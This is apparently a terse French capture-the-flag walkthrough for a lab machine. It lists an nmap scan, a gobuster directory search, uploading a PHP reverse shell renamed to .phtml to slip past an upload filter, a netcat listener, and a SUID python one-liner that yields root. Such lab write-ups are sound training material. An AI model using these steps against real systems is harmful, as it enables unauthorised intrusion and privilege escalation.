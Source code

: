 ## Nmap
On fait la commande nmap -sC -sv ip_machine
## What is the hidden directory?
gobuster dir -u http://10.10.19.26 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
/panel/

##Shell
copier dans le bureau le fichier php shell usr/share/webshells/php
ensuite on édite le fichier avec nano et on remplace l'ip par celle de notre machine
remplacer l'extension .php par .phtml
puis le shell s'ouvre
possible de le stabiliser https://brain2life.hashnode.dev/how-to-stabilize-a-simple-reverse-shell-to-a-fully-interactive-terminal
faire la commande netcat -lnvp 1234
find / -type f -name user.txt
cat /var/www/user.txt

python -c ‘import os; os.execl(“/bin/sh”, “sh”, “-p”)’
on est root
cat root.txt
